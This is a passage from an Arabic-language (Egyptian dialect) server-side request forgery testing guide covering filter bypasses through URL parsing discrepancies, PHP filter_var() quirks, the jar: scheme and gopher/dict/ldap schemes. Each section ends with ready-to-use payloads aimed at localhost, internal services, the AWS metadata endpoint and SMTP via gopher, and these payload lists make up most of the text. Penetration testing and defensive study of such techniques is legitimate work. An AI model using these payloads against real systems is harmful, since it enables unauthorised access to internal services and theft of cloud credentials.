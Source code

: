 
#### **8. اختبار التجاوز باستخدام اختلاف تحليل URL (URL Parsing Discrepancy)**
- **إيه اللي هتعمله؟** استغل الاختلافات في طريقة تحليل الروابط بين مكتبات البرمجة المختلفة (مثل `urllib`، `requests`) عشان تتخطى الفلاتر.
- **إزاي تعملها؟**
  - جرب روابط تحتوي على رموز غريبة (مثل `\@` أو `#`) عشان تخدع المحلل.
  - لو الموقع وصل لعنوان غير متوقع (مثل `127.2.2.2` بدل `127.1.1.1`)، يبقى نجحت.
- **مثال**: جرب: `example.com/fetch?url=http://127.1.1.1:80\@127.2.2.2:80/`.
- **ملخص الأوامر/المدخلات**:
  - `http://127.1.1.1:80\@127.2.2.2:80/` (تحليل خاطئ باستخدام `\@`).
  - `http://127.1.1.1:80\@@127.2.2.2:80/` (استخدام `@@`).
  - `http://127.1.1.1:80:\@@127.2.2.2:80/` (استخدام `:\@@`).
  - `http://127.1.1.1:80#\@127.2.2.2:80/` (استخدام `#\@`).
  - `http://1.1.1.1 &@2.2.2.2# @3.3.3.3/` (اختبار مكتبات مختلفة).

---

#### **9. اختبار التجاوز باستخدام دالة PHP filter_var()**
- **إيه اللي هتعمله؟** لو الموقع بيستخدم PHP `filter_var()` للتحقق من الروابط، جرب روابط غريبة يقبلها (خاصة في PHP 7.0.25).
- **إزاي تعملها؟**
  - أدخل روابط تحتوي على أحرف غير متوقعة زي `???` أو صيغ غير قياسية زي `0://`.
  - لو الموقع قبل الرابط ونفذ الطلب، يبقى نجحت.
- **مثال**: جرب: `example.com/fetch?url=http://test???test.com`.
- **ملخص الأوامر/المدخلات**:
  - `http://test???test.com` (رابط غريب يقبله `filter_var()`).
  - `0://evil.com:80;http://google.com:80/` (صيغة مختلطة).
  - `0://127.0.0.1:80/` (استهداف `localhost` بصيغة `0://`).

---

#### **10. اختبار التجاوز باستخدام JAR Scheme**
- **إيه اللي هتعمله؟** جرب استخدام بروتوكول `jar:` لإرسال طلبات عمياء (Blind) إلى أهداف داخلية.
- **إزاي تعملها؟**
  - أدخل رابط يستخدم `jar:` لاستهداف `localhost` أو خدمات داخلية.
  - ملاحظة: دي تقنية عمياء، يعني ما هتشوفش الناتج مباشرة، بس ممكن تستخدم أداة زي Interactsh لتسجيل التفاعل.
- **مثال**: جرب: `example.com/fetch?url=jar:http://127.0.0.1!/`.
- **ملخص الأوامر/المدخلات**:
  - `jar:http://127.0.0.1!/` (استهداف `localhost`).
  - `jar:https://127.0.0.1!/` (استهداف HTTPS).
  - `jar:ftp://127.0.0.1!/` (استهداف FTP).
  - `jar:http://169.254.169.254!/latest/meta-data/` (استهداف AWS Metadata).

---

#### **11. اختبار استغلال بروتوكولات أخرى (URL Schemes)**
- **إيه اللي هتعمله؟** جرب بروتوكولات غير HTTP (زي `gopher://`، `dict://`، `ldap://`) عشان تتفاعل مع خدمات غير الويب.
- **إزاي تعملها؟**
  - أدخل روابط تستخدم بروتوكولات زي:
    - `gopher://` لإرسال بيانات إلى TCP (مثل SMTP).
    - `dict://` لخدمات DICT.
    - `ldap://` لخدمات LDAP.
    - `sftp://` لنقل ملفات.
    - `tftp://` لنقل عبر UDP.
    - `netdoc://` لقراءة ملفات في Java.
  - لو الموقع نفذ الطلب أو أظهر ناتج غريب، يبقى البروتوكول مدعوم.
- **مثال**: جرب: `example.com/fetch?url=gopher://localhost:25/_TEST`.
- **ملخص الأوامر/المدخلات**:
  - `gopher://localhost:25/_TEST` (اختبار SMTP).
  - `gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A` (إرسال بريد عبر SMTP).
  - `dict://attacker:11111/` (اختبار DICT).